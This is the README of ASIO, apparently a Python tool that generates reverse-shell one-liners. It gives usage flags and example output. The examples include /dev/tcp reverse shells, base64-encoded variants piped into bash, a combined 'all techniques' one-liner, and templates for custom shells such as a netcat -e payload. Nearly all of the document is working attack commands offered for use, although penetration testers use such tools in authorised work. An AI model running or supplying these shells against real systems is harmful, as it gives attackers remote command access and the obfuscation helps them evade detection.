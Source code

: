 # ASIO
## Description
ASIO (All Shell In One) is a tool written in Python3 that generates reverse shells. It has the ability to **cast a one liner that uses all the available reverse shell teqniques**

## Usage
```
usage: asio.py [-h] -H HOST -P PORT [-A] [-B]

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Hostname or IP of the server
  -P PORT, --port PORT  Port of the server
  -A, --all             Use this argument to generate a full one liner to try all the reverse shell possible.
  -B, --base64          Encode all the reverse shells in base64 and build a one liner to execute the decoded string
```
## Examples

### Generate multiple reverse shells
Command:
```
./asio.py -H 127.0.0.1 -P 8080
```
Output:
```
 sh in dev tcp 
 sh -i >& /dev/tcp/127.0.0.1/8080 0>&1

 exec sh in dev tcp 
 0<&196;exec 196<>/dev/tcp/127.0.0.1/8080; sh <&196 >&196 2>&196
 ```

### Generate multiple reverse shells encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B
```
Output:
```
 sh in dev tcp 
echo "IHNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84MDgwIDA+JjE=" | base64 -d | bash

exec sh in dev tcp 
echo "IDA8JjE5NjtleGVjIDE5Njw+L2Rldi90Y3AvMTI3LjAuMC4xLzgwODA7IHNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d | bash
```

### Generate one liner with all the available teqniques encoded in base64
Command:
```
./asio.py -H 127.0.0.1 -P 8080 -B -A
```
Output:
```
 All in one
echo "KCBzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjE<more base64>" | base64 -d | bash
```


## Add presonalized reverse shells
 - Edit the `personal_shells.txt` file
 - Use the following syntaxt: `Name of the Revere Shell | Reverse Shell Code`
 - Use `{HOST}` and `{PORT}` as a placeholders for address and port variables.

### Example
`sh in dev tcp | sh -i >& /dev/tcp/{HOST}/{PORT} 0>&1`

`netcat -e | nc -e /bin/sh {HOST} {PORT}`